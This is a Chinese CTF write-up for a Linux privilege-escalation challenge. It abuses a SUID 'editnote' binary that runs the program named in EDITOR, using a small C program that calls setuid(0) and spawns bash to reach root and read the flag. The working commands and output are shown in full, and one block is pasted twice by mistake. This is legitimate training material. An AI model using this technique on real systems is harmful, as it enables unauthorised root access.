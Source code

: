 # ?CTF 2025 Platform(公开赛道) - [Week2] 《关于我穿越到CTF的异世界这档事:破》 （难度：Lunatic下位）
**Writer：DreamLost（QQ ID：Scarlet Secret）**<br>
**Solve Time: 2025-10-11 11:33:30**
## 题目背景

metavi穿过第一层的光之门，眼前是一片由无数黑色石柱组成的荒原。石柱表面闪烁着绿色的字符流，仿佛是某种古老的系统在运转。
石柱的底层写着：用户：ctf，密码：CtfP@ssw0rd!2025
看完这一行之后，脚下的大地裂开，露出一座巨大的“终端祭坛”。祭坛上浮现出一行行命令，却被层层权限屏障所阻挡。 要想突破这一关，metavi必须找到隐藏在系统中的漏洞，逐步提升权限，直至掌控整个祭坛。
【第二层·linux提权：请ssh连接提权，找到祭坛深处的flag。】

## 解题步骤：

登录，使用ls时候会看到家目录下面有文件“note.txt”
内容是：Think About SUID

于是使用find查询系统内的SUID文件：
`find / -type f -perm -4000 2>/dev/null`

得到：
```
/usr/local/bin/editnote
/usr/bin/chsh
/usr/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/chfn
/usr/lib/openssh/ssh-keysign
```

此时如果我们cat一下这个神奇的“editnote”，得：
```
�'GN�e�m)X t 0� ""__cxa_finalize__libc_start_mainexeclpgetenvperrorlibc.so.6GLIBC_2.34GLIBC_2.2.5_ITM_deregisterTMCloneTable__gmon_start___ITM_registerTMCloneTable7���Au␦i     L��@�?�?�?�?��?�?�?��H�H��/H��t��H���5�/��%�/��h���������h���������h�����������%�/D����%E/D����%=/D����%5/D��1�I��^H��H���PTE1�1�H�=��/�f.�H�=9/H�2/H9�tH��.H��t        �����H�=       /H�5/H)�H��H��?H��H�H��tH��.H����fD�����=�.u+UH�=�.H��t
                                                      H�=�.������d�����.]������w�����UH��H�� �}�H�u�H�aH�������H�E�H�}�t
                                                                                                                       H�E����u
       H�CH�E�H�;H�E�H�U�H�u�H�E�H�Ǹ����H�&H���|��������H�H��EDITORvi/home/ctf/notes.txtexeclp failed4����h0����@����p���PY����zRx
         ���&D$4����@FJ
y                      �?␦:*3$"\����t����0������E�C
�@7

�␦����o���
�
 �?HP� ������o`���o���oN���o�=0@@GCC: (Ubuntu 11.4.0-1ubuntu1~22.04.2) 11.4.0�� � ��� 3@I␦@U�=|���=������!����=�0 ��?�" M @>@E
      K@X @t �␦@Q�&�␦@�����@� ��"
                                 Scrt1.o__abi_tagcrtstuff.cderegister_tm_clones__do_global_dtors_auxcompleted.0__do_global_dtors_aux_fini_array_entryframe_dummy__frame_dummy_init_array_entryeditnote.c__FRAME_END___DYNAMIC__GNU_EH_FRAME_HDR_GLOBAL_OFFSET_TABLE_getenv@GLIBC_2.2.5__libc_start_main@GLIBC_2.34_ITM_deregisterTMCloneTable_edata_fini__data_start__gmon_start____dso_handle_IO_stdin_used_end__bss_startmainperror@GLIBC_2.2.5__TMC_END___ITM_registerTMCloneTableexeclp@GLIBC_2.2.5__cxa_finalize@GLIBC_2.2.5_init.symtab.strtab.shstrtab.interp.note.gnu.property.note.gnu.build-id.note.ABI-tag.gnu.hash.dynsym.dynstr.gnu.version.gnu.version_r.rela.dyn.rela.plt.init.plt.got.plt.sec.text.fini.rodata.eh_frame_hdr.eh_frame.init_array.fini_array.dynamic.data.bss.comment#886hh$I�� W���o��a
                                                                      ��i���q���oNN~���o``����BPP�  @�``�pp0���k�

�  0�0 0 4�h h ������=�-��?�@0
                            @00-@0�     �3�5␦
```

我们可以从中提取出这样的信息：
""__cxa_finalize__libc_start_mainexeclpgetenvperrorlibc.so.6GLIBC_2.34GLIBC_2.2.5_ITM_deregisterTMCloneTable__gmon_start___ITM_registerTMCloneTable

提取其中的关键字：
main**execlp** **getenv** **perror** **EDITOR**
其中**execlp**表明这个程序会执行一个外部程序，**getenv**显然是读取用户或者全局的环境变量，而大写的**EDITOR**就是getenv所读取的**环境变量**

我试着直接执行这个程序，回弹：
```
ctf@cl-161-2f56e14ea5a452da:~$ editnote
execlp failed: No such file or directory
```
没错，显然这个执行了一个很奇怪的文件。
最开始，我先试着去编辑了一下notes.txt

    ctf@cl-161-2f56e14ea5a452da:~$ cat > notes.txt << 'EOF'
    > /bin/bash -p
    > EOF

随后我尝试编辑EDITOR并执行editnote
```
ctf@cl-161-2f56e14ea5a452da:~$ export EDITOR="/home/ctf/notes.txt"
ctf@cl-161-2f56e14ea5a452da:~$ editnote
execlp failed: Permission denied
ctf@cl-161-2f56e14ea5a452da:~$
```
可以看出这确实会执行一个外部文件，那么我可以编写一个简单的程序并尝试透过SUID来以root执行，以此拿到rootshell。
但是这需要：
1.服务器有对应语言的编译器
2.有位置可读可写可执行

首先我们用which来查看服务器上有哪些编译器：
```shell
ctf@cl-161-2f56e14ea5a452da:~$ which python php gcc g++ java
/usr/bin/gcc
/usr/bin/g++
```
第一个条件找到了：我们可以用c或者c++来编写一个提权的程序，但是哪里是可执行可读写的目录呢？
此时我想到了/tmp目录，它刚好符合这个特征，使用**ls -l /**来验证一下
```shell
ctf@cl-161-2f56e14ea5a452da:~$ which python php gcc g++ java
/usr/bin/gcc
/usr/bin/g++
```

现在的思路很明确：编写一个C语言程序，使用**SUID的继承性**来运行这个程序就可以以Root权限来执行这个提权程序。
cat命令刚好可以让我们在服务器上编写好这个程序：
```shell
ctf@cl-161-2f56e14ea5a452da:~$ cat > /tmp/getroot.c << 'EOF'
#include <unistd.h>
//unistd.h 是一个在 C 和 C++ 程序设计语言中非常重要的头文件，它提供了对 POSIX 操作系统 API 的访问。
int main() {
    setuid(0);//设置程序的uid为0
    execl("/bin/bash", "bash", NULL);//以继承的root(UID=0)权限执行/bin/bash
    return 0;
}
EOF
ctf@cl-161-2f56e14ea5a452da:~$
```
、
编译，执行得到root shell
```shell
ctf@cl-161-2f56e14ea5a452da:~$ gcc /tmp/getroot.c -o /tmp/shellget
ctf@cl-161-2f56e14ea5a452da:~$ export EDITOR="/tmp/shellget"
ctf@cl-161-2f56e14ea5a452da:~$ editnote
root@cl-161-2f56e14ea5a452da:~#
```
得到root shell
使用find找寻flag文件
```shell
root@cl-161-2f56e14ea5a452da:~# find / -name "flag*"
/root/flag.txt
find: '/proc/1/task/1/fdinfo': Permission denied
find: '/proc/1/map_files': Permission denied
find: '/proc/1/fdinfo': Permission denied
find: '/proc/9/task/9/fdinfo': Permission denied
find: '/proc/9/map_files': Permission denied
find: '/proc/9/fdinfo': Permission denied
find: '/proc/20/task/20/fdinfo': Permission denied
find: '/proc/20/map_files': Permission denied
find: '/proc/20/fdinfo': Permission denied
find: '/proc/21/task/21/fdinfo': Permission denied
find: '/proc/21/map_files': Permission denied
find: '/proc/21/fdinfo': Permission denied
find: '/proc/27/task/27/fdinfo': Permission denied
find: '/proc/27/map_files': Permission denied
find: '/proc/27/fdinfo': Permission denied
find: '/proc/38/task/38/fdinfo': Permission denied
find: '/proc/38/map_files': Permission denied
find: '/proc/38/fdinfo': Permission denied
find: '/proc/39/task/39/fdinfo': Permission denied
find: '/proc/39/map_files': Permission denied
find: '/proc/39/fdinfo': Permission denied
find: '/proc/48/task/48/fdinfo': Permission denied
find: '/proc/48/map_files': Permission denied
find: '/proc/48/fdinfo': Permission denied
find: '/proc/59/task/59/fdinfo': Permission denied
find: '/proc/59/map_files': Permission denied
find: '/proc/59/fdinfo': Permission denied
find: '/proc/60/task/60/fdinfo': Permission denied
find: '/proc/60/map_files': Permission denied
find: '/proc/60/fdinfo': Permission denied
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/eth0/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/tunl0/flags
root@cl-161-2f56e14ea5a452da:~#
```
去/root目录查看flag：
得到
```shell
root@cl-161-2f56e14ea5a452da:~# cat /root/flag.txt
flag{043209e6-2cf5-453d-9c30-fe5851892154}
```

所以，flag正式浮出水面：flag{043209e6-2cf5-453d-9c30-fe5851892154}
